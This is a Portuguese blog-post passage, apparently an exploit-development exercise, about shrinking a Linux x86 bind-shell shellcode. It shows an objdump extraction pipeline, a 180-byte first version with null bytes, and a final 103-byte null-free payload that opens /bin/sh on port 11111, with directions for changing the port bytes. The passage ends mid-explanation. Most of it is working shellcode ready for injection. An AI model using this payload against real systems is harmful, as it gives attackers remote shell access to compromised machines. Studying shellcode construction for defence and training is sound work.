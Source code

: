 ##Enxugando o Shellcode (smallest as possible)

###Extraindo os opcodes do meu shell_bind_tcp (asm)

{% highlight console %}
$ objdump -d ./shell_bind_tcp|grep '[0-9a-f]:'|grep -v 'arquivo' | cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' | grep x00

"\xb8\x66\x00\x00\x00\xbb\x01\x00\x00\x00\x6a\x00\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb8\x66\x00\x00\x00\xbb\x0e\x00\x00\x00\x6a\x04\x54\x6a\x02\x6a\x01\x52\x89\xe1\xcd\x80\xb8\x66\x00\x00\x00\xbb\x02\x00\x00\x00\x6a\x00\x66\x68\x2b\x67\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb8\x66\x00\x00\x00\xbb\x04\x00\x00\x00\x6a\x00\x52\x89\xe1\xcd\x80\xb8\x66\x00\x00\x00\xbb\x05\x00\x00\x00\x6a\x00\x6a\x00\x52\x89\xe1\xcd\x80\x89\xc2\xb8\x3f\x00\x00\x00\x89\xd3\xb9\x00\x00\x00\x00\xcd\x80\xb8\x3f\x00\x00\x00\xb9\x01\x00\x00\x00\xcd\x80\xb8\x3f\x00\x00\x00\xb9\x02\x00\x00\x00\xcd\x80\xb8\x0b\x00\x00\x00\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xcd\x80"

$ echo -n "\xb8\x66...\xcd\x80" | wc -m
720
{% endhighlight %}

**720 / 4 = 180 bytes**

Além de conter null-bytes (o que não pode), o shellcode gerado ficou com 180
bytes. Precisei retirar os null-bytes e analisar a possibilidade de uso de
instruções cujos opcodes (hexa) fossem menores. Após estudar um pouco mais sobre
os registradores e instruções, remontei-o.

{% gist geyslan/5176409 %}

E sobre a configuração da porta? Pensei, pensei e pensei... Qual seria a melhor
forma de configurá-la sem aumentar muito o tamanho do shellcode? Como vocês vêem
no código assembly acima, usei logo no início, um "mov bp, 0x672b" (para colocar
o valor da porta no registrador de 16 bits bp). Durante o percurso do shellcode,
o bp é utilizado apenas mais uma vez na construção da estrutura sockaddr_in
(argumento da syscall socketcall - opção bind) ao ter os dois bytes inseridos na
pilha com a instrução "push bp". Mesmo com o acréscimo de 2 bytes no shellcode,
valeu a pena.

A versão final ficou com 103 bytes, um tamanho aceitável para os atributos
adicionados: porta +2 bytes e O_REUSEADDR +15 bytes.

**"\x66\xbd"<br>
"\x2b\x67" /\* <- Port number 11111 (2 bytes) \*/<br>
"\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89"<br>
"\xe1\xcd\x80\x89\xc6\x5f\xb0\x66\x6a\x04\x54\x57"<br>
"\x53\x56\x89\xe1\xb3\x0e\xcd\x80\xb0\x66\x89\xfb"<br>
"\x52\x66\x55\x66\x53\x89\xe1\x6a\x10\x51\x56\x89"<br>
"\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd"<br>
"\x80\xb0\x66\x43\x89\x54\x24\x08\xcd\x80\x93\x89"<br>
"\xf9\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68"<br>
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52"<br>
"\x53\xeb\xa8";**

Em resumo, os terceiro e quarto bytes referem-se à porta. Atentem que para
modificá-la no shellcode, o respectivo número deve ser convertido em
hexadecimal. Exemplo:
